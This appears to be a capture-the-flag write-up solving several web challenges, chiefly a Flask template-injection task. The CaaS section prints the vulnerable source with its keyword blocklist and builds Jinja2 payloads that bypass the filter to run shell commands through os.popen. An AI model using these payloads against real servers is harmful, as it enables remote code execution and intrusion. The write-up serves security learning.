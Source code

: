 # Write up N00bzCTf 2023

## Club_N00b
For the first few challs, I will upload the payload and quickly skim through it because it is a blackbox.
![](https://hackmd.io/_uploads/HJU8lz7Dh.png)
Note that `radical` is mentioned here. 
Try using the Check Status function with a parameter called secret_phrase set to nope. Just replace it with radical and you'll get the flag
![](https://hackmd.io/_uploads/BkimWfmv2.png)

## Robots
The name of the task immediately makes me think of a file [robots.txt](https://fptcloud.com/file-robots-txt/)
![](https://hackmd.io/_uploads/rJk_-fXP2.png)

Just change the path and it's okay.
![](https://hackmd.io/_uploads/Hyd1QzmD2.png)

## Secret Group
When accessing the website, you receive an agent that is not n00bz-4dm1n, I immediately think chall will check the HTTP header.
![](https://hackmd.io/_uploads/BJgGQzXDh.png)

Just modify the components in the sent request and you will get the flag.

![](https://hackmd.io/_uploads/HkSyEMmD3.png)

## Conditions

![](https://hackmd.io/_uploads/BybmNfmDh.png)

"We have a feature to input username, and the author's provided us with the source code:
```python
@app.route('/login',methods=['GET','POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        if len(request.values["username"]) >= 40:
            return render_template_string("Username is too long!")
        elif len(request.values["username"].upper()) <= 50:
            return render_template_string("Username is too short!")
        else:
            return flag
```

After inputting the username:
- The first if statement checks if the length of the username is greater than or equal to 40, then it will return "too long".
- Next, if username.upper() <= 50, then it will return "too short"."
![](https://hackmd.io/_uploads/H1u4HGmvn.png)
Hmm, if we input a normal string, we can't pass both conditions to get the flag. Because upper() is just a function to convert the string to uppercase.
After researching for a while, I found a special character :v
![](https://hackmd.io/_uploads/ByF2SMXvh.png)

Wow :v so we just need to input 49 special characters and 49 * 3 > 50.
Ok, nice.
I'll write a script to send the request and get the flag because BurpSuite is not very good at handling Unicode characters
```python
import requests

url = "http://challs.n00bzunit3d.xyz:42552/login"

r = requests.post(url, data = {"username" : 'ﬃ'*39})
print(r.text)
```
![](https://hackmd.io/_uploads/S1nwLzQv3.png)

## CaaS

### Source code:
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, render_template_string, redirect
import subprocess
import urllib

app = Flask(__name__)

def blacklist(inp):
    blacklist = ['mro','url','join','attr','dict','()','init','import','os','system','lipsum','current_app','globals','subclasses','|','getitem','popen','read','ls','flag.txt','cycler','[]','0','1','2','3','4','5','6','7','8','9','=','+',':','update','config','self','class','%','#']
    for b in blacklist:
        if b in inp:
            return "Blacklisted word!"
    if len(inp) <= 70:
        return inp
    if len(inp) > 70:
        return "Input too long!"

@app.route('/')
def main():
    return redirect('/generate')

@app.route('/generate',methods=['GET','POST'])
def generate_certificate():
    if request.method == 'GET':
        return render_template('generate_certificate.html')
    elif request.method == 'POST':
        name = blacklist(request.values['name'])
        teamname = request.values['team_name']
        return render_template_string(f'<p>Haha! No certificate for {name}</p>')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=52130)
```
### Idea:
- After looking through the source code, I was quite surprised by the large number of filters and the limit on the number of characters I could input.
- It's quite challenging :v If you play web CTFs, you can probably see that this is an SSTI exploit (the vulnerability is in the render function). To learn more, you can check it out [here](https://secure-cookie.io/attacks/ssti/)
- If we only copy and read the payloads in Payloads All The Things for this task, we will be stuck
![](https://hackmd.io/_uploads/rkgftfQwn.png)
- The goal of the payload is to access the 'os' module to execute commands.
- Because cycler, joiner, and lipsum class are all in the blacklist, we can only use the namespace. If we use this method, the payload will be like this:
`{{namespace['__ini''t__']['__global''s__']['o''s']['pop''en']('l\s')['rea''d'](+)}}`
Around 80-90 characters to execute.
`__init__`   banned so I'm using `['__ini''t__']` to bypass. And `()` trở become `(+)`
So I switched to using [global variables](https://flask.palletsprojects.com/en/2.0.x/templating/) To find gadgets in `__globals__`
![](https://hackmd.io/_uploads/ByGTrmQP3.png)

- I found that the global variable `g` is the shortest, so I decided to use it to build.
### Exploit

You imagine that my payload will look like this
```
name={{g.pop['__global''s__'].__builtins__.eval('__import__("os").popen("id").read()')}}
```
About 83 characters, and now I'll start reducing the number to avoid the blacklist.
In Python, we have several ways to get the input value.
![](https://hackmd.io/_uploads/rJUw_Q7wn.png)

I will use it to insert values into string variables. That's why I used eval. Inside it is a string command, so I can optimize a lot

```
name={{g.pop['__global''s__'].__builtins__.eval(request.form.a)}}
```
And we will add the parameter `a` to the request. :
![](https://hackmd.io/_uploads/HyQbK7Qv3.png)

(The image above is my local test, expanding the number of characters input for testing)

![](https://hackmd.io/_uploads/BJs3tmQP3.png)

Finally, we can RCE on the server to get the flag. We can use commands from the `a` parameter without being checked.

![](https://hackmd.io/_uploads/H1OMc7Xw2.png)

Payload:
```
name={{g.pop['__global''s__'].__builtins__.eval(request.form.a)}}&a=__import__("os").popen("cat flag.txt").read()&team_name=cc
```

Here's the source code for this task if you want to rebuild it(I've adjusted the input length):
- Required: [install flask](https://pypi.org/project/Flask/)
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, render_template_string, redirect
import subprocess
import urllib

app = Flask(__name__)

def blacklist(inp):
    blacklist = ['mro','url','join','attr','dict','()','init','import','os','system','lipsum','current_app','globals','subclasses','|','getitem','popen','read','ls','flag.txt','cycler','[]','0','1','2','3','4','5','6','7','8','9','=','+',':','update','config','self','class','%','#']
    for b in blacklist:
        if b in inp:
            return "Blacklisted word!"
    if len(inp) <= 1000:
        return inp
    if len(inp) > 1000:
        return "Input too long!"
    


@app.route('/generate',methods=['GET','POST'])
def generate_certificate():
    if request.method == 'POST':
        name = blacklist(request.values['name'])
        teamname = request.values['team_name']
        return render_template_string(f"""
                <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>cc</title>
        </head>
        <body>
            <p1> {name} </p1>
        </body>
        </html>
        """,name=name)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=52130)

```



## Thanks
> **Thank you to the author for bringing us such great challenges. We hope that next year will be just as amazing.**
